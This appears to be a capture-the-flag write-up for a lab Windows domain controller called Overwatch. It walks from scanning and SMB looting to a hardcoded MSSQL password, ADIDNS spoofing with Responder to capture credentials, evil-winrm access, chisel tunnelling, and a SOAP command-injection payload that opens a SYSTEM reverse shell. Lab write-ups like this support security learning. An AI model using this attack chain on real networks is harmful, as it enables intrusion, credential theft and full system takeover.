










## ~$ nM@p sc4n

Perform an initial scan:
```bash
└─$ sudo nmap -sC -sV $IP -p-
```

-> `-sC` : run default nmap scripts

-> `-sV` : enumerate service versions

-> `-p-` : scan all ports

Output:
```bash
PORT      STATE    SERVICE       VERSION
53/tcp    open     tcpwrapped
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-26 18:38:57Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-03-26T18:40:30+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2025-12-07T15:16:06
|_Not valid after:  2026-06-08T15:16:06
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-26T18:39:51+00:00
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
6520/tcp  open     ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
|_ssl-date: 2026-03-26T18:40:30+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.15.103:6520: 
|     Target_Name: OVERWATCH
|     NetBIOS_Domain_Name: OVERWATCH
|     NetBIOS_Computer_Name: S200401
|     DNS_Domain_Name: overwatch.htb
|     DNS_Computer_Name: S200401.overwatch.htb
|     DNS_Tree_Name: overwatch.htb
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.129.15.103:6520: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 6520
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-03-26T17:34:03
|_Not valid after:  2056-03-26T17:34:03
9389/tcp  open     mc-nmf        .NET Message Framing
49664/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
55665/tcp filtered unknown
55690/tcp filtered unknown
56487/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
56488/tcp open     msrpc         Microsoft Windows RPC
58448/tcp open     msrpc         Microsoft Windows RPC
58466/tcp open     msrpc         Microsoft Windows RPC
```

The open ports indicate that the target host is a domain controller (DC).

The key findings:

**\[!\] Domain -> overwatch.htb**

**\[!\] Computer name -> S200401**

**\[!\] MSSQL service on port 6520**

## ~$ smb enum

Looking for shares we have access to:
```bash
└─$ nxc smb $IP -u 'guest' -p '' --shares
```
The interesing one is **software$**. Listing its content by connecting via smbclient:
```bash 
└─$ smbclient \\\\$IP\\software$ -U guest
```
It contains many files for a program. 

So, I recursively transfer all these file to my host:
```bash
└─$ smbclient \\\\$IP\\software$ -U guest -c "prompt OFF; recurse ON; mget *"
```
All files:


## ~$ Сommand Injection + Service App Mini-Overview

Taking a quick look at the  **overwatch.exe.config** configuration file reveals the following link:


This link represents the address used by service to receive requests from clients.

**\[+\] ./overwatch.exe.config: http://overwatch.htb:8000/MonitorService**

The configuration file also contains one endpoint:

`<endpoint address="" binding="basicHttpBinding" contract="IMonitoringService" />`

It means that the defined address from which the service receives clients' requests implements methods that are declared in an IMonitoringService interface.  
Also `binding` defines how the data will be transferred -> in this case the binding is set to `basicHttpBinding` , meaning data is transferred in SOAP messages over HTTP.

To decompile it on UNIX-like systems, I used **ILSpy**.
The program is built using the WCF framework -> So it's a service-oriented application.

There is an *IMonitoringService* Interface:
```c#
[ServiceContract]
public interface IMonitoringService
{
	[OperationContract]
	string StartMonitoring();

	[OperationContract]
	string StopMonitoring();

	[OperationContract]
	string KillProcess(string processName);
}
```
Here is all methods that can be accessed from this endpoint: `http://overwatch.htb:8000/MonitorService`.

All these methods are implemented in the MonitoringService class. 
One of them (`KillProcess` method) contains the following line:
```c# 
string psCommand = "Stop-Process -Name " + processName + " -Force";
```
This is a simple string concatenation with a user-controllable `processName` parameter, which means we can inject an arbitrary  PowerShell command. For example, we can pass `notepad ; <arbitrary_command> ;#` and the resulting command will be:
```powershell 
Stop-Process -Name notepad ; <arbitrary_command> ;# -Force
```

This psCommand variable is then passed to Poweshell for execution, as shown in the following code snippet:
```c#
try
{
  using Runspace runspace = RunspaceFactory.CreateRunspace();
  runspace.Open();
  using Pipeline pipeline = runspace.CreatePipeline();
  pipeline.Commands.AddScript(psCommand); // <<<--- [1]
  pipeline.Commands.Add("Out-String");
  Collection<PSObject> collection = pipeline.Invoke(); // <<<---- [2]
  runspace.Close();
// ......
```
The `Runspace` class is used for PowerShell script execution. After initialization and opening, the `psCommand` variable is passed to the created pipeline [1]. `Out-String` is then added as a separate pipeline step via the `C# API`, meaning it receives the output of the entire `psCommand` execution regardless of any # comments inside it. Finally, `pipeline.Invoke` executes everything [2].

The result will be sent back in the response.
```bash
StringBuilder output = new StringBuilder();
foreach (PSObject obj in collection)
{
  output.AppendLine(obj.ToString());
}
return output.ToString();
```
So, we can pass any command, for example, `dir` or `whoami` and the result of it will be send back in the response. 

This is classic command injection vulnerability.

We'll come back to this later -> it could be a privesc vector, if the service is running on the target as a more privileged user than the one we currently have.
For now, we do not have access to it as the nmap scan didn't reveal open 8000/tcp port.

---

The *Program.cs* file contains a `CheckEdgeHistory` method, which includes a line for connecting to the MSSQL server:
```c#
SqlConnection conn = new SqlConnection("Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;");
```
**\[!\] MSSQL creds -> sqlsvc : TI0LKcfHzZw1Vv**

## ~$ MSSQL enum

First, let's check if the credentials are valid:
```bash
└─$ nxc ldap s200401.overwatch.htb -u 'sqlsvc' -p 'TI0LKcfHzZw1Vv' 
```
Success:
```bash
LDAP        10.129.15.103   389    S200401          [+] overwatch.htb\sqlsvc:TI0LKcfHzZw1Vv
```

Connecting to MSSQL via mssqlclient.py:
```bash
└─$ mssqlclient.py  -port 6520 -windows-auth  overwatch.htb/sqlsvc:'TI0LKcfHzZw1Vv'@overwatch.htb 
```
There is nothing interesting but a linked server was discovered:


A linked server is a configuration that allows one SQL Server instance to interact with another for distributed database access.

For more details -> [Microsoft official documentation](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-servers-database-engine?view=sql-server-ver17)

However, the linked server is not accessible -> the host cannot be reached for some reason:
```bash
SQL (OVERWATCH\sqlsvc  guest@master)> 
SQL (OVERWATCH\sqlsvc  guest@master)> EXEC ('SELECT SYSTEM_USER') AT [SQL07];
INFO(S200401\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL07" returned message "Login timeout expired".
INFO(S200401\SQLEXPRESS): Line 1: OLE DB provider "MSOLEDBSQL" for linked server "SQL07" returned message "A network-related or instance-specific error has occurred while establishing a connection to SQL Server. Server is not found or not accessible. Check if instance name is correct and if SQL Server is configured to allow remote connections. For more information see SQL Server Books Online.".
ERROR(MSOLEDBSQL): Line 0: Named Pipes Provider: Could not open a connection to SQL Server [53].
```

We can perform ADIDNS poisoning by creating a DNS record in ADIDNS.

## ~$ ADIDNS Spoof1ng

ADIDNS -> [Microsoft docs](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/active-directory-integrated-dns-zones)

ADIDNS Poisoning -> [the Hacker Recipes](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing)

By default, the ADIDNS zone DACL allows regular users to create objects, so we can leverage this.

To add the record, I used the bloodyAD tool:
```bash
└─$ bloodyAD -u 'sqlsvc' --host S200401.overwatch.htb -d overwatch.htb  -p 'TI0LKcfHzZw1Vv' -dns add dnsRecord SQL07 <IP>
```
The result: 
```bash
[+] SQL07 has been successfully added
```
Run responder:
```bash
└─$ sudo responder -I tun0
```
Reconnecting to the SQL server via mssqlclient.py and executing the following query against the linked server:
```bash
exec ('select 1') at [sql07]
```


As a result, Responder intercepts the following authentication data:
```bash
[MSSQL] Cleartext Username : sqlmgmt
[MSSQL] Cleartext Password : bIhBbzMMnB82yx
```




**\[+] creds -> sqlmgmt : bIhBbzMMnB82yx**

## ~$ sqlmgmt 

```bash
─$ nxc ldap s200401.overwatch.htb -u 'sqlmgmt' -p 'bIhBbzMMnB82yx' 
```

Quering all LDAP attributes of the sqlmgmt account:
```bash
└─$ ldapsearch -x -H ldap://overwatch.htb  -b "DC=overwatch,DC=htb" -D "sqlmgmt@overwatch.htb" -w "bIhBbzMMnB82yx" "(sAMAccountName=sqlmgmt)"
```
sqlmgmt is a member of the `Remote Management Users` group:
```bash
memberOf: CN=Remote Management Users,CN=Builtin,DC=overwatch,DC=htb
```

Therefore, we can obtain a shell using `evil-winrm`:
```bash
└─$ evil-winrm -i overwatch.htb -u 'sqlmgmt' -p 'bIhBbzMMnB82yx'
```
At this point, we get the first flag:

**\[+\] C:\Users\sqlmgmt\Desktop\user.txt**

## ~$ PrivEsc

The `HKLM\SYSTEM\CurrentControlSet\Services` registry key stores all information about services installed on the system.
I decided to check whether a registry entry for the service exists: 
```bash
*Evil-WinRM* PS C:\Users\sqlmgmt> reg query "HKLM\SYSTEM\CurrentControlSet\Services" | findstr "overwatch"
```
The output confirms that it does:
```bash
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\overwatch
```
Next, let's query the full details of this service:
```bash
*Evil-WinRM* PS C:\Users\sqlmgmt> reg query "HKLM\SYSTEM\CurrentControlSet\Services\overwatch"
```
Output:
```bash
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\overwatch
  Type    REG_DWORD    0x10
  Start    REG_DWORD    0x2
  ErrorControl    REG_DWORD    0x1
  ImagePath    REG_EXPAND_SZ    C:\Program Files\nssm-2.24\win64\nssm.exe
  DisplayName    REG_SZ    overwatch
  ObjectName    REG_SZ    LocalSystem
  ...
  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\overwatch\Parameters
# ....
```
The ImagePath points to nssm.exe (NSSM).
[NSSM](https://github.com/kirillkovalenko/nssm) is a wrapper that runs overwatch binary as a Windows service.

Querying the `HRLM\SYSTEM\CurrentControlSet\Services\overwatch\Parameters` subkey reveals the actual application path:
```bash
reg query "HKLM\SYSTEM\CurrentControlSet\Services\overwatch\Parameters"
```
Output:
```bash
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\overwatch\Parameters
    Application    REG_EXPAND_SZ    C:\Software\Monitoring\overwatch.exe
    AppParameters    REG_EXPAND_SZ
    AppDirectory    REG_EXPAND_SZ    C:\Software\Monitoring
```

The ObjectName value reveals the service runs as LocalSystem.

This means any command executed through the previously identified Command Injection vulnerability would run with SYSTEM privileges.

---
The service at http://overwatch.htb:8000/MonitoringService is accessible on localhost, but to interact with it from my machine I will use port forwarding via [chisel](https://github.com/jpillora/chisel).

First, upload the chisel executable to the target:
```
*Evil-WinRM* PS C:\Users\sqlmgmt\AppData\Local\Temp> upload chisel.exe
```



On the host machine run the following command:
```bash
└─$ chisel server -p 54321 --reverse
```

On the target:
```bash
*Evil-WinRM* PS C:\Users\sqlmgmt\AppData\Local\Temp> .\chisel.exe client 10.10.14.48:54321 R:127.0.0.1:8000
```

Navigating to `http://127.0.0.1:8000/MonitorService`:


The page provides multiple ways to interact with it -> I will use the SOAP approach.

Sending a POST request to http://127.0.0.1:8000/MonitorService with the following required headers:
```bash
SOAPAction: http://tempuri.org/IMonitoringService/KillProcess
Content-Type: text/xml
```
and with the following payload:
```xml
<?xml version="1.0"?>
<qwe:Envelope xmlns:qwe="http://schemas.xmlsoap.org/soap/envelope/"
             xmlns:a="http://tempuri.org/">
<qwe:Body>
  <a:KillProcess>
    <a:processName>notepad ; powershell -e <base64> ; #</a:processName>
  </a:KillProcess>
</qwe:Body>  
</qwe:Envelope>
```
The payload is injected into the processName field. When the service receives the request, it passes this value directly into the `psCommand` variable, as described earlier.

reverse shell generator -> [revshell](https://revshells.com)


As a result, we obtain a SYSTEM shell:
